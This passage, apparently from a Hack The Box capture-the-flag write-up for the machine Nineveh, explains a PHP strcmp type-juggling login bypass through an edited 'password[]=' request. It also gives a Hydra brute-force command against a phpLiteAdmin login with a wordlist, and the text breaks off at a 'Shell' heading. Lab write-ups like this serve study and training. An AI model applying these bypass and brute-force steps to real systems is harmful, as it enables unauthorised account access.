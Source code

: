 ## Bonus

This wasn't used during initial exploitation, but could've been useful or provided another path.

### Department login bypass

During the original exploitation Hydra was used to brute force the password. It turns out that this login page was vulnerable to a PHP exploit by changing the data type of the password.

Original request

```http
POST /department/login.php HTTP/1.1
...

username=admin&password=test
```

Request edited in Burp Suite

```http
POST /department/login.php HTTP/1.1
...

username=admin&password[]=
```

Changing the parameter from `password` to `password[]` will change the datatype to an `array`. The `strcmp` function in PHP is used to compare two `string` values and return the first index of the character where the strings are different. If one of the parameters in this function is an `array` it will throw a warning, but continue execution and return `NULL`. If only the values and not the types are compared in PHP this `NULL` will equal `0` so the output of the function if both `string` parameters in `strcmp` match.

Doing this this way would've resulted in a part from start to root without any brute forcing.

### phpLiteAdmin

This solution found, but ignored phpLiteAdmin because another solution was found.

#### Login brute force

We'll use Hydra to brute force the login tot phpLiteAdmin, just like we did to the department login page. The hydra command will have `-l user`, because we have to set the `-l` parameter even when it's not used.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh$ hydra nineveh.htb https-form-post "/db/index.php:password=^PASS^&proc_login=true:Incorrect password" -l user -P /usr/share/wordlists/rockyou.txt -vV -f
...
[443][http-post-form] host: nineveh.htb   login: user   password: password123
...
```

#### Shell
